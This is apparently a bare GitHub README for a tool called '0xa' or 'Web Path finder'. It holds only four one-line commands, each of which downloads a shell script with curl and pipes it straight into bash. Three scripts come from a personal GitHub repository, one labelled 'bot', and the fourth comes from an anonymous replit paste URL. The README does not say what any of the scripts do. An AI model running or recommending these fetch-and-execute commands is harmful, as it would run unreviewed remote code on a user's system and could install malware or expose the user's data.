 # 0xa
## Web Path finder

### Locate
```code
bash <(curl -s https://raw.githubusercontent.com/tucommenceapousser/0xa/main/webpath.sh)
```

### find
```code
bash <(curl -s https://raw.githubusercontent.com/tucommenceapousser/0xa/main/findweb.sh)
```
bot
```
bash <(curl -s https://raw.githubusercontent.com/tucommenceapousser/0xa/main/dlbot.sh)
```
```
bash <(curl -s https://hastetrkn.replit.app/raw/ebeqewijor)
```
